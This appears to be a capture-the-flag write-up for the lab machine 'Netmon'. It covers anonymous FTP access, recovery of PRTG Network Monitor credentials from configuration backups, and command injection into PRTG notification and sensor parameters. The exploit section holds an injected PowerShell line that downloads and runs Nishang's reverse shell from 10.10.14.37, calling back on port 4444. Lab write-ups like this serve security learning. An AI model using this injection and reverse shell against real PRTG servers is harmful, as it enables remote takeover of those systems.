

# Netmon


### Machine Info


#### Nmap


###### FTP (Port 21)

FTP anonymous login is allowed:


I tried to upload `.php` and `.txt` but not worked.


###### SMB (Port 139,445)

Tried `smbclient` and `smbmap` but it's not allowed with anonymous user. I am getting `NT_STATUS_ACCESS_DENIED`.


###### HTTP (Port 80)

Web Server is running `Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)`.

Access to index page:

Tried to login common credentials and default `[prtgadmin, prtgadmin]` but not worked.


###### Again FTP

Let's find anything related to `PRTG Network Monitor`.

I fount from google about `PRTG Configuration` could include plain text of password:


Search for that files:


`PRTG Configuration.dat`:

JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======


`PRTG Configuration.old.bak`:

User: prtgadmin, PrTg@dmin2018


PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ====

`PRTG Configuration.old`:


###### HTTP (Port 80)

I got a credential `prtgadmin, PrTg@dmin2018` from configuration file. I tried with this credential but not worked, so I just tried password `PrTg@dmin2019` as new configuration data file was created on 2019 and it worked:




##### Exploit

Check if there is a exploit for `PRTG Network Monitor 18.1.37.13946`:


This version also could be affected as this version is `18.2.39`.

Based on [reference](https://www.codewatch.org/blog/?p=453) about this vulnerability, I tested this works or not.

###### Method 1 (using notification)

First try ping test:


Ping test worked which means we could also try reverse shell.


Try [Nishang's](https://github.com/samratashok/nishang) Powershell Reverse Shell:

Add line to the `Invoke-PowerShellTcp.ps1`:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 4444
```

Parameter:
```
test; IEX (New-Object Net.Webclient).DownloadString('http://10.10.14.37:8080/Invoke-PowerShellTcp.ps1')
```


`nc` listener on attacking side:


###### Method 2 (via adding sensor)

Use same parameter I used for `noticiation` method and just add new sensor and start:

